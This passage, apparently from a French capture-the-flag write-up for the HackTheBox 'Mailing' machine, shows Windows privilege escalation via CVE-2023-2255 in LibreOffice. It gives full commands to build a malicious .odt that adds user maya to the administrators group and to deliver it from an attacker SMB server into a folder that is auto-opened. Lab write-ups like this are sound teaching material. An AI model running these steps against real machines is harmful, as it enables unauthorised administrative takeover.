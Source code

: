 Le script automatise le processus d'ouverture de tous les fichiers OpenDocument Text (`*.odt`) situés dans le répertoire spécifié.

En retournant à la version de LibreOffice, nous trouvons [ici](https://github.com/elweth-sec/CVE-2023-2255) un PoC pour CVE-2023-2255.

Sachant que les fichiers `.odt` sont automatiquement ouverts lorsqu'ils sont placés dans un certain répertoire, nous pouvons créer un fichier malveillant qui exécutera des commandes lorsqu'il sera ouvert. Nous allons créer un fichier pour ajouter `maya` au groupe des administrateurs. 

Nous ne trouvons pas le répertoire habituel `Administrators` dans `C:\Users`, à la place nous avons un utilisateur appelé `localadmin`. Avec `net user localadmin` nous confirmons qu'il fait partie du groupe des administrateurs appelé `Administradores` dans ce cas.

![localadmin membership](/images/HTB-Mailing/localadmin-memberships.png)

```
git clone https://github.com/elweth-sec/CVE-2023-2255

python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'
```

![Malicious odt file](/images/HTB-Mailing/malicious_odt_file.png)

Le fichier `.odt` malveillant est envoyé à la cible à l'aide d'un serveur SMB, mais après l'avoir placé dans `C:Users\Public\Documents`, rien ne se produit.

Après quelques recherches, un certain répertoire se démarque! Nous trouvons un répertoire appelé `Important Documents` dans `C:\`, en vérifiant ses permissions nous remarquons que les membres du groupe `Administradores` ont le contrôle total `(F)` sur le répertoire. De plus, Maya a également les permissions de modification `(M)` sur ce répertoire.

![Important Documents directory permissions](/images/HTB-Mailing/folder-permissions.png)

Plaçons-y notre fichier malveillant.

1. Lancer un serveur SMB 

```
impacket-smbserver mailing `pwd` -smb2support
```

2. Se connecter au serveur SMB avec l'utilisateur maya

```
net use \\MY_IP\mailing
```

3. Aller dans `C:\NImportant Documents` et télécharger le fichier malveillant

```
cd 'Important Documents'
copy \\MY_IP\mailing\exploit.odt
```

4. Attendre 1 à 2 minutes puis confirmez que Maya fait maintenant partie du groupe `Administradores` avec `net user maya`

![maya now part of admin group](/images/HTB-Mailing/maya_admin.png)
